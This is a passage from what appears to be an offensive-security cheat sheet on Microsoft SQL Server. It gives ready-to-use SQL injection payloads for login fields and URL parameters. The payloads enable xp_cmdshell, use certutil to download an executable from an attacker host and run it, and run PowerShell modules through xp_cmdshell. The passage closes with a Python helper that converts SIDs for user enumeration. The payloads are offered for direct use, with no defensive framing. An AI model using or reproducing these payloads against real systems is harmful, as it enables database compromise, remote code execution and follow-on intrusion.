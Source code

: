 ##### Without Authentication

```console
SQL> xp_cmdshell powershell -c import-module C:\PATH\TO\FILE\<FILE>.ps1; <FILE> <OPTIONS>
```

##### With Authentication

```console
SQL> xp_cmdshell "powershell $cred = New-Object System.Management.Automation.PSCredential(\"<USERNAME>\",\"<PASSWORD>\");Import-Module C:\PATH\TO\FILE\<FILE>.ps1;<FILE> <OPTIONS>
```

#### MSSQL SQL Injection (SQLi) to Remote Code Execution (RCE) on a Logon Field

```console
';EXEC master.dbo.xp_cmdshell 'ping <LHOST>';--
';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://<LHOST>/shell.exe C:\\Windows\temp\<FILE>.exe';--
';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\<FILE>.exe';--
```

#### MSSQL SQL Injection (SQLi) to Remote Code Execution (RCE) in URL

```console
http://<RHOST>/index.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

```console
http://<RHOST>/index.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://<LHOST>/<FILE>.exe C:\Windows\Temp\<FILE>.exe'; --
```

```console
http://<RHOST>/index.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\<FILE>.exe'; --
```

### Relative Identifier (RID) Transformation and User Enumeration

#### Transformation

##### Python Solution

```python
def hex_sid_to_string_sid(hex_sid):
    sid_bytes = bytes.fromhex(hex_sid[2:])
    revision = sid_bytes[0]
    sub_auth_count = sid_bytes[1]
    identifier_authority = int.from_bytes(sid_bytes[2:8], byteorder='big')
    sub_authorities = [
        int.from_bytes(sid_bytes[8 + (i * 4):12 + (i * 4)], byteorder='little')
        for i in range(sub_auth_count)
    ]
    string_sid = f"S-{revision}-{identifier_authority}"
    for sub_auth in sub_authorities:
        string_sid += f"-{sub_auth}"
    return string_sid

hex_sid = "0x010500000000000515000000a185deefb22433798d8e847a00020000"
sid = hex_sid_to_string_sid(hex_sid)
print(sid)
```
